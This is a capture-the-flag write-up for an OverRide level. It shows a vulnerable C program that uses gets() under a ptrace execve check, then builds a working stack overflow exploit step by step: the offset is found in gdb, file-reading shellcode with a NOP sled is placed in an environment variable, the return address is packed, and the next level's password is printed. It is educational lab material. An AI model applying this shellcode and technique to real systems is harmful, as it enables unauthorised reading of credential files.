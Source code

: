 # Solution

Here is the C code


```c
#include <unistd.h>
#include <memory.h>
#include <stdio.h>
#include <sys/wait.h>
#include <sys/prctl.h>
#include <sys/ptrace.h>

int main(int argc, const char **argv, const char **envp)
{
  int   status;
  char  buffer[128];
  long  ret;
  pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  ret = 0;
  status = 0;
  if ( pid )
  {
      // loop to check if child is dead or not also check everytime the EAX register,
      // if value is equal to 11 this would mean that execve() is called,
      // this will kill the child process and exit the main process if 11 is found.
    do
    {
      wait(&status);
      if (  WTERMSIG(status) || WIFSIGNALED(status) )
      {
        puts("child is exiting...");
        return 0;
      }
      ret = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    } while ( ret != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1); //
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
  return 0;
}
```

Here is exploit is a bit trickier than usual, first as you can see in the source code we have a bunch of comment that explain,
what the main process do and also what it check.

```c
// loop to check if child is dead or not also check everytime the EAX register,
// if value is equal to 11 this would mean that execve() is called,
// this will kill the child process and exit the main process if 11 is found.
```

So from this we can see that we have a normal buffer overflow exploit that is done in the child process but the trickier part is,
that we need to be sure that our shellcode will not contain the execve call.

So for this we will be using this [shellcode](https://shell-storm.org/shellcode/files/shellcode-73.html), 
this shellcode is a file reader meaning that you provide a file path then it will read the file.

So now let's try to find the offset value for the buffer overflow and then let's prepare the payload for our exploit.

Let's run `gdb-gef` so we can find the offset value.

```sh
gef➤  b main
Breakpoint 1 at 0x80486cd (2 locations)
gef➤  set follow-fork-mode child
```

Here we break on main and set follow-fork-mode to child this will allow gdb to follow the child process this is where we can overflow.

```sh
gef➤  r
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

We create a debrujin string so we can find the offset for the craft of the payload.

```sh
gef➤  c
Give me some shellcode, k
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

This will result in a segfault and from here we need to find where we will segfault for that we need to print the value of the register `esp`,
because this will give us the offset that overwrite the address from the debrujin string.


```sh
0x6261616f in ?? ()
gef➤  x/xw $esp
0xffffcb50:     0x62616170
gef➤  pattern search 0x62616170
[+] Searching for '70616162'/'62616170' with period=4
[+] Found at offset 160 (little-endian search) likely
```

Perfect now we know that the offset to cause an overwrite of the return address is 156. 
Why 156 and not 160 like the return value said from the pattern search because 160 is the full overwritten address,
where 156 is the begining of that overwrite so basically 156 byte to attain the return address + 4 byte to overwrite the address,
this give us 160 byte offset.


We can test that to be sure by running the binary with `A*156` and `B*4`.


```sh
gef➤ r < <(python -c 'print "A"*156 + "B"*4')
gef➤ c
0x42424242 in ?? ()
gef➤
```

As we can see this work the 4 byte after 156 will overwrite the return address.


So now we need to craft our payload that will contain the shellcode modified with the right proper path and a nop sled,
this is done like this to be sure that the provided return address will be dropped inside a nop sled to hit our shellcode.

Since we have the control of the environment we can provide our nop sled + shellcode inside an environment variable like this

```sh
export SHELLCODE=$(perl -e 'print "\x90"x200 . "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass"')
```

Now we just need to find the address of the said environment variable named SHELLCODE to do so you have two way to do it.

You can find the address by using GDB,
You can find the address by creating a program that will print the address (this only works if you ASLR off or precisily ASLR set to 2).

So we will do the second way because it's more reliable because gdb add environment variable LINES, COLUMNS.
Also other environment variable will be changed and will find themselve with different value.

So here is the c program that we will use


```c
#include <stdlib.h>
#include <stdio.h>


int main(int ac, char **av, char **envp) {
    printf("%p\n", getenv("SHELLCODE"));
    return 0;
}
```

We need to compile this as 32 bit since the binary that we try to exploit is 32 bit also, 
and it need to have the same number of character as name.

```sh
level04@OverRide:~$ gcc -m32 /tmp/env.c -o /tmp/levelXX                                                                                                                                                                                                                      
level04@OverRide:~$ /tmp/levelXX
0xffffd7ca
level04@OverRide:~$
```
Something also really important to get the proper address you need to launch this program into your home,
if you changed of directory also you need to relaunch the program from the home to get the new address.

So now we have the address we need to pack that address and run the program buffer overflow it with the proper address. 

```py
#!/usr/bin/env python3
import struct

struct.pack("<I", 0xffffd7d9)
# Output: b'\xd9\xd7\xff\xff'
```

If the address here changed it's normal it's because i did switch from /tmp dir to home dir.
So now let's run the program to get the flag.
```sh
level04@OverRide:~$ (python -c 'print "A"*156 + "\xd9\xd7\xff\xff"') | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...
level04@OverRide:~$
```

We get the next flag. 
